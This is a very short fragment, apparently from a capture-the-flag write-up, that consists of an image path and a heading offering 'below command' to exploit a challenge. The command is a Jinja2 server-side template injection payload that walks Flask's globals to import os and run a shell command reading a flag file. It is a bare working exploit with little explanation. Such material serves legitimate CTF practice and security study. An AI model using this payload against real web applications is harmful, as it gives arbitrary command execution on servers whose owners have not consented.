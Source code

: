 ## you can exploit with below command


```bash
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```
